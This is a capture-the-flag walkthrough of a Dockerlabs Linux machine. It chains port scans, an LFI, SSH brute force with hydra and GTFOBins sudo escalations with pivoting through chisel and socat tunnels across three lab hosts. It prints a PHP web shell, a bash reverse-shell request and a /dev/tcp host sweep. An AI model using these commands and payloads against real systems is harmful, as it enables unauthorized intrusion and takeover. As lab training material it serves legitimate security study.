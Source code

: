 ```yaml
---
date: 2024-09-20
categories: [Linux, Medium]
---
```


![image](https://github.com/user-attachments/assets/bb0e3da1-16cb-45b5-8aaa-83ceb2d81ed6)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [El pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)         | [Dockerlabs](https://dockerlabs.es/)     | Medium           | Linux   |

---








- I start scaning the open ports
    
    ```bash
    nmap -p- -vvv -sS --min-rate 5000 -Pn 10.10.10.2 -oG scan
    ```
    
    ![image 1](https://github.com/user-attachments/assets/c9f4e387-d513-4475-98cc-5794f733def5)

    

- Scanning open ports
    
    ```bash
    nmap -p22,80 -sCV 10.10.10.2 -oN ports
    ```
    
    ![image 2](https://github.com/user-attachments/assets/34723c1b-b745-4d0e-92ac-650f70fb379d)

    

- We enter the website
    
    ![image 3](https://github.com/user-attachments/assets/b009561c-4997-46aa-b0c2-17fe5f47c86a)

    

- We check the technologies being used by the web application
    
    ```bash
    whatweb 10.10.10.2
    ```
    
    ![image 4](https://github.com/user-attachments/assets/7362722a-a7fd-4e07-96ea-feb25c851cdd)

    

- We perform fuzzing to try to find directories
    
    ```bash
    gobuster dir -u http://10.10.10.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
    ```
    
    ![image 5](https://github.com/user-attachments/assets/36b52e26-f5c6-4b9b-b4d9-fbffdc4caf4f)

    

- I access the website `http://10.10.10.2/shop/`
    
    ![image 6](https://github.com/user-attachments/assets/b58ca28b-f2b5-4f14-9e14-935183aa164b)

    

- It seems that the web page has a parameter with which I can try to load a local file (`LFI`)
    
    ![image 7](https://github.com/user-attachments/assets/8ef7b4c8-659b-47c1-a721-ed1dd5178487)

    

- With the absolute path it does not load anything. When trying with relative paths I managed to load files
    
    ![image 8](https://github.com/user-attachments/assets/562dbb83-78fc-4ed1-a847-f1b12a875862)

    

- I discovered two users, `seller` and `manchi`. I make a brute force attack to try to connect via ssh with one of these users
- With the user `seller` I could not get his password but I could with `manchi`
    
    ```bash
    hydra -l manchi -P /usr/share/wordlist/rockyou.txt ssh://10.10.10.2
    ```
    
    ![image 9](https://github.com/user-attachments/assets/de2f3f21-3099-4bf1-93bb-a41dc5a6d499)

    

- I try to connected via ssh and after searching for a while for ways to escalate our privileges but I don´t found nothing. I tried to brute force with the user `seller`
    [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce)
    
    ```bash
    ./Linux-Su-Force.sh seller rockyou.txt
    ```
    
    ![image 10](https://github.com/user-attachments/assets/31421030-7368-475e-ada8-846fb73aeb85)

    

- I connect as seller and list the commands that I can execute as sudo without providing a password
    
    ```bash
    sudo -l
    ```
    
    ![image 11](https://github.com/user-attachments/assets/ad8bd9d9-3ca3-4560-8018-7146e3b93ef6)

    

- I search in gtfobins for ways to escalate privileges with sudo php and become root
    
    [GTFOBins](https://gtfobins.github.io/)
    
    ```bash
    CMD="/bin/sh"
    sudo php -r "system('$CMD');"
    ```
    
    ![image 12](https://github.com/user-attachments/assets/0cf33d8f-c7df-4e6d-866a-19ad175f50a5)

    

- I find out which ips this computer has 'hostname -I'. I apply a reconnaissance to see what other hosts are on network 20.20.20.0/24
    
    ```bash
    #!/bin/bash
    
    for i in $(seq 1 254); do
    	for port in 21 22 80 443 445 8080; do
    		timeout 1 bash -c "echo '' > /dev/tcp/20.20.20.$i/$port" &>/dev/null && echo "[+] Host 20.20.20.$i - PORT $port - OPEN" &
    	done
    done; wait
    
    ```
    
    ![image 13](https://github.com/user-attachments/assets/e32bed7a-3135-41bb-bc93-99ffc610c73c)

    

- I create a tunnel between the two machines using `chisel`
    
    ```bash
    #Execute this from your machine
    ./chisel server --reverse -p 1234
    
    #Execute this from the 10.10.10.2 machine
    ./chisel client 10.10.10.1:1234 R:1080:socks
    ```
    
    ![image 14](https://github.com/user-attachments/assets/237e7876-f4ef-434a-9471-5a057fa3c94a)

    
    ![image 15](https://github.com/user-attachments/assets/7d3e68cd-f442-48c4-bf18-8e03bfd25e23)

    
    - Add in `/etc/proxychains4.conf` the following line
        
        ```bash
        socks5 127.0.0.1 1080
        ```
        

- As we see that you have a web service on port 80, we perform an enumeration and find a secret.php file.
    
    ```bash
    gobuster dir -u http://20.20.20.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:1080 -t 5 -x .php,.txt
    ```
    
    ![image 16](https://github.com/user-attachments/assets/4f1e30b3-f8cd-4401-a107-83760a14c036)

    

- We access the page defining a proxy and see a potential user
    
    ![image 17](https://github.com/user-attachments/assets/2d350fdb-8228-4fe2-85db-df1b3ea3162b)

    
    ![image 18](https://github.com/user-attachments/assets/e2c78509-a865-49f1-abd7-d74a2ff470e2)

    

- We make a brute force attack to try to connect via ssh
    
    ```bash
    proxychains4 hydra -l mario -P /usr/share/wordlist/rockyou.txt ssh://20.20.20.3 2>/dev/null
    ```
    
    ![image 19](https://github.com/user-attachments/assets/41eb500e-8443-4b5b-b68d-2741aa4304bd)

    

- I connect via ssh and see what commands you can execute as sudo without providing a password
    
    ![image 20](https://github.com/user-attachments/assets/8fe80456-9bba-4e31-85b0-9a24db2e11d3)

    

- I search in gtfobins for ways to escalate privileges with sudo vim and become root
    
    ```bash
    sudo vim -c ':!/bin/sh'
    ```
    
    ![image 21](https://github.com/user-attachments/assets/38ae33ba-b7c3-4c56-b1ac-9457a5708bce)

    

- I find out which ips this computer has 'hostname -I'. I apply a reconnaissance to see what other hosts are on network 30.30.30.0/24
    
    ![image 22](https://github.com/user-attachments/assets/9c37d0a7-6c05-40a8-8bfc-6eeff3f1f009)

    

- I create a tunnel between the three machines using `chisel` and `socat`
    
    ```bash
    ./chisel client 20.20.20.2:4237 R:8888:socks
    
    ./socat TCP-LISTEN:4237,fork TCP:10.10.10.1:1234
    ```
    
    ![image 23](https://github.com/user-attachments/assets/195ff51e-328f-4c55-8e67-6d8ab8f4164a)

    
    ![image 24](https://github.com/user-attachments/assets/628c4d59-3a5e-470d-9dd7-e302ffc31b80)

    
    - Add in `/etc/proxychains4.conf` the following line
        
        ```bash
        socks5 127.0.0.1 8888
        ```
        

- I scanned the 5000 most common ports and found port 80 open.
    
    ```bash
    nmap -sT -Pn --top-ports 5000 -open- --min-rate 5000 -vvv -n 30.30.30.3 2>/dev/null
    ```
    
    ![image 25](https://github.com/user-attachments/assets/df89e748-4ca2-4bd3-b383-b77690206ff5)

    

- I try to upload a php file with which I can execute commands (`RCE`)
    
    ![image 26](https://github.com/user-attachments/assets/7d181ac8-982a-41b5-bbef-4c249685fd2d)

    
    ![image 27](https://github.com/user-attachments/assets/3d56580d-0db1-4e6c-8f36-4bd82d8e8adc)

    

```bash
<?php 
	system($_GET['cmd']);
?>
```

- I perform fuzzing to find directories
    
    ```bash
    gobuster dir -u http://30.30.30.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt --proxy socks5://127.0.0.1:8888
    ```
    
    ![image 28](https://github.com/user-attachments/assets/df947804-acd2-46e2-b2e3-76e7d06aed88)

    

- I find where the file we have just uploaded is located and see that I can execute the following commands
    
    ![image 29](https://github.com/user-attachments/assets/732741c8-3ba3-453a-bd04-5a70303223b2)

    

- I create a tunnel so that when doing a reverse shell I get to our computer.
    
    ```bash
    #Victim 1 (10.10.10.2)
    ./socat TCP-LISTEN:4342,fork TCP:10.10.10.1:4341
    
    #Victim 2 (20.20.20.3)
    ./socat TCP-LISTEN:4343,fork TCP:20.20.20.2:4342
    ```
    
    ![image 30](https://github.com/user-attachments/assets/c05cf7f9-43e7-4533-b507-6abf987ba7b1)

    
    ![image 31](https://github.com/user-attachments/assets/3e4b6f93-d5b7-4bfd-b8b4-54b5dad313fe)

    

- I make the request to create the reverse shell
    
    ```bash
    http://30.30.30.3/uploads/a.php?cmd=bash -c "bash -i >%26 /dev/tcp/30.30.30.2/4343 0>%261"
    ```

    ![image 32](https://github.com/user-attachments/assets/7cfc766d-20e6-4f4d-81d3-34cb5642c072)

    

- I connect as www-data and list the commands that I can execute as sudo without providing a password
    
    ![image 33](https://github.com/user-attachments/assets/2187889a-e248-47bf-93e8-deec77345c22)

    

- I search in gtfobins for ways to escalate privileges with sudo env and become root
    
    ```bash
    sudo env /bin/sh
    ```
    
    ![image 34](https://github.com/user-attachments/assets/4c8aacb3-4727-4f7d-84d0-ffe634a99fd7)

